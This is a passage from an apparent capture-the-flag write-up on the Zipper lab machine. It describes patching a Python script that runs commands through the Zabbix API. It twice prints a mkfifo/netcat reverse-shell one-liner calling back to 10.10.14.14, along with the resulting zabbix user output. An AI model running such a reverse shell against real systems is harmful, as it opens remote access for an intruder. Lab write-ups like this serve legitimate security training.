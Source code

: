     [zabbix_cmd]>>:  host 0xdf # invalid host option leaves host the same
    [*] Current host is zabbix



I did make one other change to the shell. I noticed when I gave it a
reverse shell, it would eventually timeout, and crash the shell:



    [zipper_cmd]>>:  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443>/tmp/f
    Traceback (most recent call last):
      File "zipper_shell.py", line 93, in <module>
        print cmd_exe["result"]["value"]
    KeyError: 'result'



I can fix this by adding a `try`:



     93         try:
     94             print cmd_exe["result"]["value"]
     95         except KeyError:
     96             print("[-] Unexpected data: ")
     97             print(cmd_exe)



Now I can continue after a command like a shell:



    [zipper_cmd]>>:  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443>/tmp/f
    [-] Unexpected data:
    {u'jsonrpc': u'2.0', u'id': 0, u'error': {u'message': u'Application error.', u'code': -32500, u'data': u'Timeout while executing a shell script.'}}                                                                        
    [zipper_cmd]>>:  id
    uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)



I could go beyond this as well. For example, I could create a command
`shell` much like I did with `host` that automatically runs the reverse
shell to get a callback. I could have it take an ip and port. I'll leave
that as an exercise for the reader.

### Conclusion

At first I thought it was sloppy on the shell's author to not include
the `execute_on` parameter. But I suspect in their eyes the Zabbix
server was a juicier target. So if they had included it, they would have
defaulted to running on the server anyway.

It will say it was nicely done on Zipper's author's part to have it set
to default running on the wrong host, as it makes us as players have to
figure out what's going on and not just use the scripts on the internet.

### Code
